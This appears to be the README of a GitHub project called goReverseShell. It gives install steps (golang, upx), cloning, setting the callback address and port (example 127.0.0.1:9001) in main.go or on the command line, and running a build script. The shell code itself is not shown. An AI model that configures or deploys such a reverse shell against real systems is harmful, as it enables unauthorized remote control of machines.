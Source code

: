 # goReverseShell


To use this shell you need to install and update some current pacakages to be effective.

# Debian
```bash
sudo apt install git golang upx
```

# Clone the repo

```bash
# install golang and upx
git clone https://github.com/TheeNawMan/goReverseShell
cd goReverseShell
```

# Edit main.go to put in the information we want to use.
```bash
nano main.go
```

# Edit lines 65-66 for your default values or use command line
```go
	Addr := "127.0.0.1"
	Port := "9001"
```
```go
./linux-amd64 127.0.0.1 9001
```

# Lets build :)

```bash
chmod +x build.sh
./build.sh
```